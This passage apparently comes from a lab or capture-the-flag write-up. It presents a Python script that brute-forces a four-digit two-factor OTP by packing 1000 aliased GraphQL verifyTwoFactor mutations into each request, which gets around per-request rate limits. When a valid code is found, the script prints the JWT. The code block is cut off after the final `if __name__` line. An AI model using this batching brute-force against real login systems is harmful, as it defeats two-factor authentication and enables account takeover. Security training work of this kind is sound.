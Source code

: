 So i had to write a python script that it will do the following…

- It will make 10 batch of request
- Each batch of request will contain 1000 query containing otp from 0000 to 9999.
- it will check if there is a jwt token or not in response, if it found jwt in response, it will stop the request and show the otp and jwt token.

```
import requests
import sys

ENDPOINT      = "http://83.136.253.38:54396/graphql"
SESSION_TOKEN = "f2286d50-7b89-4483-a049-96a94578b54c"
BATCH_SIZE    = 1000

def build_mutation(start: int, end: int) -> str:
    fields = []
    for i in range(start, end):
        otp   = str(i).zfill(4)
        alias = f"v{otp}"
        fields.append(
            f'{alias}: verifyTwoFactor(token: "{SESSION_TOKEN}", otp: "{otp}") {{ token }}'
        )
    return "mutation {\n  " + "\n  ".join(fields) + "\n}"

def main():
    for batch_idx in range(10):
        low, high = batch_idx * BATCH_SIZE, (batch_idx + 1) * BATCH_SIZE
        print(f"[Batch {batch_idx+1}/10] Trying OTPs {str(low).zfill(4)}–{str(high-1).zfill(4)}…")
        mutation = build_mutation(low, high)

        resp = requests.post(
            ENDPOINT,
            json={"query": mutation},
            headers={"Content-Type": "application/json"}
        )
        try:
            resp.raise_for_status()
        except requests.exceptions.HTTPError as e:
            print(f"  HTTP error: {e}")
            continue

        payload = resp.json()
        data   = payload.get("data", {})     # e.g. { "v0000": None, "v0001": None, … }
        errors = payload.get("errors", [])   # list of { message, path: [alias,...], … }

        invalid_aliases = {
            err["path"][0]
            for err in errors
            if "Invalid or expired OTP" in err.get("message","")
        }

        for alias, result in data.items():
            if alias not in invalid_aliases:
                otp_found = alias.lstrip("v")
                token     = (result or {}).get("token")
                print(f"\n Found valid OTP: {otp_found}")
                print(f"    JWT = {token!r}")
                sys.exit(0)

        print("  ➞ no success in this batch.\n")

    print(" Exhausted all batches; no valid OTP found.")

if __name__ == "__main__":
```